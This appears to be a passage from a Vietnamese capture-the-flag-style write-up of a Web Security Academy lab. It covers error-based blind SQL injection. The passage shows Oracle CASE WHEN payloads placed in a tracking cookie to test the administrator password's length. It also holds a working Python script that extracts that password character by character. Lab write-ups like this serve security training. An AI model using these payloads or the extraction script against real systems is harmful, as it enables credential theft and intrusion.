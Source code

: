 ```CASE WHEN... THEN...ELSE...END```
Payload:  ```|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND LENGTH(password) > 1) --```

Payload này có ý nghĩa nếu không tồn tại cái điều kiện username là administrator và có password > 1 thì nó sẽ không xét cái case kia.

==>Sẽ trả về 200 OK

Và ngược lại thì sẽ xét case kia và case đã được cài đặt cho kiểu gì cũng trả về lỗi

==> 500 internal error.

![alt text](./img/lab11-7.png)

- -Giờ vào intruder để tự động hóa thoai.

![alt text](./img/lab11-8.png)


==>Password có độ dài 20.

- Bước 5: Brute force tiếp password thui:

Payload: ```' || (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTR(password, 1, 1) = 'a')--```

- Ta có script python:

```python
import string
import requests
URL = 'https://0ae4004704309b088073087b00f500da.web-security-academy.net/'
cookies = {
    "TrackingId" : "XUlggHunMAmomffx",
    "session" : "z1qHoMc9GgdlBsHPBdGc799vpdofnyjf"
}
CHARSET = string.ascii_lowercase + string.digits + string.ascii_uppercase
tracking_id_origin = "XUlggHunMAmomffx"
extracted_password = ""
for pos in range(1, 21):
    Found = False
    for charec in CHARSET:
        payload = tracking_id_origin + f"' || (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTR(password, {pos}, 1) = '{charec}')--"
        cookies["TrackingId"] = payload
        
        response = requests.get(URL, cookies=cookies)
        
        if response.status_code == 500:
            extracted_password += charec
            Found = True
            print(f"[+] Found charector {pos} : {charec}")
            break
        else:
            print(f"[-]Charector {charec} not matched in {pos}")
    
    if(Found == False):
        print("[!] Not Found") 
        break
    
print(f"/n-------> password need find: {extracted_password}")
```
